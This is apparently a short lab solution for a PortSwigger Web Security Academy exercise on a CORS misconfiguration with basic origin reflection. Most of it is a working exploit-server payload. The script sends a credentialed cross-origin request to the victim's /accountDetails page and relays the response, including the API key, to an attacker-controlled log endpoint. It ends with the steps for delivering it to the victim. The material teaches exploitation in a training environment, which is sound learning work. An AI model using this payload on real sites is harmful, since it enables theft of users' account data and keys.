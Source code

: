 # CORS vulnerability with basic origin reflection
## Vuln
![image](https://user-images.githubusercontent.com/60841283/150380022-d7e17a98-a9d3-40ab-8bb0-68f6339646f9.png)

## Exploit Server
```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://acd81fed1ff42d0cc014461c009e00b2.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script> 
```
### API Key | View Exploit -> Deliver to Victim -> Access Log
![image](https://user-images.githubusercontent.com/60841283/150379179-6579332b-c12e-4b8c-979e-fd95a6223c21.png)
